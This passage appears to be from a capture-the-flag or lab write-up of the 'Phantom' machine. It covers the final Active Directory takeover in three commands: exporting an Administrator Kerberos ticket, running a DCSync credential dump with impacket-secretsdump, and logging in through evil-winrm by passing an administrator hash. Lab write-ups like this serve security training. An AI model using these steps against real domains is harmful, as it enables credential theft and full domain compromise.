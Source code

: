 Now let’s export the administrator ticket

```bash
export KRB5CCNAME=Administrator@ldap_dc.phantom.vl@PHANTOM.VL.ccache
```

![image.png](../images/phantom%2031.png)

Let’s perform DCSync on the domain controller

```bash
impacket-secretsdump -k -no-pass dc.phantom.vl
```

![image.png](../images/phantom%2032.png)

Now let’s login with administrator hash using winrm

```bash
evil-winrm -i phantom.vl -u administrator -H '71fde26ba67afaedbed8b3549012d930'
```

![image.png](../images/phantom%2033.png)
